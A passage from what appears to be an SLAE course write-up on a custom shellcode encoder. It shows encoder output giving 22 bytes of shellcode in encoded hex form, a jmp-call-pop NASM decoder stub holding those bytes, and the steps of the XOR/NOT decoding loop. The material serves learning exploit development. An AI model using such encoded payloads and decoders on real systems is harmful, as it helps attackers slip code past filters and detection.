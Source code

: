 ```term
print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

Let's encode the shellcode:

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_4$ python custom_encoder.py 
Encoded shellcode ...
"\x88\x45\x79\x45\xe9\x45\xd1\x45\x96\x45\x96\x45\xca\x45\xd1\x45\xd1\x45\x96\x45\xdb\x45\xd0\x45\xd7\x45\x30\x45\x5a\x45\xe9\x45\x30\x45\x5b\x45\x09\x45\xb2\x45\x74\x45\x39\x45
"
0x88,0x45,0x79,0x45,0xe9,0x45,0xd1,0x45,0x96,0x45,0x96,0x45,0xca,0x45,0xd1,0x45,0xd1,0x45,0x96,0x45,0xdb,0x45,0xd0,0x45,0xd7,0x45,0x30,0x45,0x5a,0x45,0xe9,0x45,0x30,0x45,0x5b,0x
45,0x09,0x45,0xb2,0x45,0x74,0x45,0x39,0x45,
Len: 22
whitecr0wz@SLAE:~/assembly/assignments/Assignment_4$
```

Good, let's create the skeleton code:

```term
global _start

section .text

_start:

      jmp short master               ; Jumps to master

main:

      pop ebp                        ; Pops the value of the shellcode into ebp
      mov esi, ebp                   ; Copies the value from ebp to esi

master:

      call main                      ; Calls to main and pops shellcode into the stack

      shellcode: db 0x88,0x45,0x79,0x45,0xe9,0x45,0xd1,0x45,0x96,0x45,0x96,0x45,0xca,0x45,0xd1,0x45,0xd1,0x45,0x96,0x45,0xdb,0x45,0xd0,0x45,0xd7,0x45,0x30,0x45,0x5a,0x45,0xe9,0x45,0x30,0x45,0x5b,0x45,0x09,0x45,0xb2,0x45,0x74,0x45,0x39,0x45
```

Right now, the flow jumps to the master section and calls main, pushing the value of shellcode into the stack and popping into EBP. Furthermore, this value is copied into ESI, 
this will be essential when it comes to the following sections of XORing and NOT decoding the instructions, as the ESI value will have to be zeroed, therefore, EBP being a 
backup register.

Now, the following steps are the same as when it comes to any insertion decoder:

+ Point EDI to the additional bytes.
+ Start a counter for the loop. (44 bytes in our case)
+ Point BL to the additional bytes.
+ XOR BL by the additional bytes.
+ Point BL to the following byte, which should be the intended.
+ Copy the value of BL into EDI, slowly restoring the original order.
+ Increment EDI in order to repeat the process.
+ AL is incremented by 2, once again to repeat the process.
+ Start the loop.
